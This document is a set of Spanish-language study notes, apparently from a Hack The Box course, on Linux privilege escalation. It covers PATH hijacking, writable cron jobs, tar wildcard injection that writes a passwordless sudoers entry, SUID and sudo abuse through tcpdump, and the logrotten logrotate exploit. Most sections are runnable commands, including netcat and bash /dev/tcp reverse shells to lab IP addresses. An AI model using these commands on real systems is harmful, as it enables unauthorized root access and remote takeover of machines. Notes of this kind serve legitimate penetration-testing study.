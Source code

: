 
### Path Abuse

Podemos aprovecharlo para inyectar archivos maliciosos en una cadena de ejecución. El path tiene un orden y en ese mismo orden el sistema buscará los distintos binarios que necesite para la ejecución.
##### EJ:

Imaginemos un fichero que necesita correr el binario "ECHO" durante su ejecución, al momendo de llamarlo, buscará a lo largo de los directorios de la variable de entorno PATH hasta encontrarlo y ejecutarlo.
De esta manera, si nosotros creamos en un directorio controlado por nosotros un archivo con un código malicioso y lo llamamos ECHO, agregamos este directorio al PATH en un lugar anterior al lugar del path donde 
el verdadero ECHO existe, la computadora lo ejecutará.


#### 1) Buscamos una carpeta donde tengamos permiso de escritura
#### 2) creamos el archivo malicioso
#### 3)Agregamos la dirección al path

    PATH=/<directory>:${PATH}
    export PATH
### Cronjob abuse:

Los cron jobs son tareas rutinarias que se corren cada X tiempo de manera automática.
Los cronjobs corren con permisos de root. Si uno de los archivos corridos tiene permiso de escritura, entonces podemos modificarlo para que, al ser corrido, podamos escalar privilegios.
##### Identificar los archivos con permisos de escritura:
        find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

##### Luego podemos imprimir el crontab para ver si alguno de estos archivos aparece:
        cat /etc/crontab

##### De no aparecer ningún archivo, podemos usar pspy para ver los eventos que pasan en el sistema y constatar si alguno está corriendo de manera reiterada:

        ./pspy64 -pf -i 1000
        

### WILDCARd ABUSE:

cuando nos encontramos un fichero en el cron que ejecuta en base a un wildcard en una carpeta, podemos sumar ficheros y ordenes de ejecución maliciosas.

##### Ej:
Supongamos que en el cronjob nos encontramos un proceso que corre automáticamente guardando un backup con un wildcard:

tar czf /tmp/backup.tar.gz *

Si tenemos permisos sobre la carpeta en la que está generando el backup, podríamos insertar lo siguiente y esperar que corra para que lo ejecute con permisos de sudo:

        echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
        echo "" > "--checkpoint-action=exec=sh root.sh"
        echo "" > --checkpoint=1
### ABUSING SUID:

        find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

https://gtfobins.github.io/

### SUDO RIGHTS
Es cuando podemos correr files con otro usuario sin password 

lo llamamos con:
        sudo -l
#### TCPDUMP:
Podemos alcanzar una shell reversa con tcpdump
##### 1) Creamos una reverse shell en alguna carpeta donde podamos escribir
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f

##### 2) Iniciamos un netcat
##### 3)Lo ejecutamos desde tcpdump

        sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root


### Logrotate

Logrotate se encarga de reemplazar logs antiguos por nuevos de manera automática para no generar ficheros interminables y pesados. Cuando el log a se vuelve muy grande, log rotate crea el log a.1 como contunuación del mismo.

Para poder explotarlo se necesitan 3 cosas:

- Necesitamos permiso de escritura sobre los logs
- Logrotate debe correr como root
- Que se encuentre entre las versiones: 3.8.6,  3.11.0, 3.15.0, 3.18.0

##### A) ver versión de logrotate

        logrotate --version
##### B)Buscar logs sobre los que tengamos permisos

        find / -type f -name "*.log" -exec test -w {} \; -print 2>/dev/null

##### c) Hacemos llegar el exploit a la pc victima

        https://github.com/whotwagner/logrotten

##### D) lo compilamos:
        gcc logrotten.c -o logrotten

##### E) Creamos un Payload que busquemos ejecutar:

        echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload

##### F) Iniciamos un nc
##### G) Vemos en qupe está seteado el logrotate.conf

        grep "create\|compress" /etc/logrotate.conf | grep -v "#"

##### H)Corremos el exploit
Si el logrotate.cfg está seteado en crear:

        ./logrotten -p ./payload /tmp/tmp.log

Si el log rotate está seteado en compress:

        ./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
        
##### I)Abusamos del log con permiso de escritura para que logrotate corra y el exploit haga su magia.

        
        
        

  



